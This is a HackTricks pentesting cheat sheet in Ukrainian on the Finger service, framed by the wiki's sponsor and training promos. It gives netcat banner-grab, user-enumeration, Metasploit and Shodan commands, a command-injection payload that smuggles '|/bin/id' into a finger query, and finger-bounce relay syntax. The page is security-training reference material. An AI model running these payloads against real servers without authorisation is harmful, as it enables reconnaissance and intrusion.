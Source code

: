 # 79 - Pentesting Finger

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари**

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування атакуючої поверхні, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Основна інформація**

Програма/сервіс **Finger** використовується для отримання деталей про комп'ютерних користувачів. Зазвичай надається інформація, яка включає **ім'я користувача, повне ім'я**, а в деяких випадках - додаткові деталі. Ці додаткові деталі можуть включати місцезнаходження офісу та номер телефону (якщо доступно), час, коли користувач увійшов, період бездіяльності (idle time), останній раз, коли користувач читав електронну пошту, та вміст планів і проектних файлів користувача.

**Порт за замовчуванням:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Перерахунок**

### **Отримання банера/Базове з'єднання**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Перерахунок користувачів**
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Альтернативно, ви можете використовувати **finger-user-enum** від [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), кілька прикладів:
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap виконує скрипт для використання стандартних скриптів**

### Metasploit використовує більше трюків, ніж Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Виконання команд
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Finger Bounce

[Використовуйте систему як реле finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари**

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування поверхні атаки, виявлення проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
